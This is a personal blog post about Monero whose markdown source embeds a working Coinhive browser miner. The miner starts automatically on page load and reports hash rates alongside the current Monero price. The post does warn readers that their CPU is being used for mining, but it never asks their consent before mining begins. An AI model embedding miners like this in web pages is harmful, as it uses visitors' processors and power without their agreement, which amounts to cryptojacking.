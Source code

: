 ```yaml
---
layout: post
title: Mining crypto with a web browser
subtitle: What is Monero?
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

**The page you are on is currently utilizing your CPU to mine Monero.**

___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

### Hashes per second: 
<div id="hashesPerSecond"></div>
### Total Hashes: 
<p id="totalHashes"></p>
## Accepted Hashes: <p id="acceptedHashes"></p>

### Current Monero Price 
<p id="XMRprice"></p>

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.

